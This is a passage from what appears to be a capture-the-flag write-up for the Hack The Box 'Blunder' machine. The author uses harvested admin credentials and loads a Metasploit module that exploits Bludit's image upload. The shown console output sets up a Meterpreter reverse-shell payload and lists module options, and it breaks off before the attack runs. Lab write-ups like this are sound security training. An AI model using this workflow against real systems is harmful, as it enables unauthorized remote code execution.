 Now that I had a working username and password to the `/admin/` page I was able to use the exploit I had found. I poked around on the site a bit and found an upload page that looked interesting, but after a bit of quick searching I found out that there was a nice and easy MetaSploit module so I fired up `msfconsole`. 

[https://github.com/rapid7/metasploit-framework/pull/12542/files](https://github.com/rapid7/metasploit-framework/pull/12542/files)

```text
zweilos@kali:~/htb/blunder$ msfconsole


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: You can upgrade a shell to a Meterpreter session on many platforms using sessions -u <session_id>                                                                                               

msf5 > use linux/http/bludit_upload_images_exec
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS                   yes       The password for Bludit
   BLUDITUSER                   yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
```
